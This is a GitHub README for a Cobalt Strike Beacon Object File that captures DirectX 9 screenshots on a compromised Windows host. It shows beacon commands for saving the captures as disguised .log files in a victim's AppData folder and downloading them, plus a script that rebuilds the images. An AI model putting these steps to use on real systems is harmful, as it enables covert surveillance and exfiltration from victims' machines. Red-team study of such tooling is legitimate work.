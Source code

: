 # DirectX9-Screenshot-BOF
![memez](/img/8gku6o.jpg)
## Overview

Capture Screenshots with DirectX 9
TBH I haven't tested this too much just seemed like a cool idea

## Notes

- Export screenshots to the **current working directory** as `.log` files
- Output format: `<width>oo<height>.log`
- Reconstruct `.log` files into PNG format locally
- Libraries Used - MSVCRT, OLE32, D3D9

### BOF Execution

Ensure you are in the directory you would like the screenshot exported as. 
```
beacon> cd C:\Users\Victim\AppData\
beacon> screenshot-dx
beacon> download <filename>
```

### Example

![Cobalt Strike Example](/img/cobalt-test.png)

![AutoDownload Example](/img/auto-download.png)
## Image Reconstruction

To reconstruct the image with this script, follow these steps:

1. Install the required packages:
    ```bash
    pip3 install Pillow
    ```

2. Run the script with the desired log file path and output file path:
    ```bash
    python3 assemble.py <logfile> output.png
    ```

### Contributers
Big thanks to ma boy Kyle started this and listened to me rage
@kyle41111
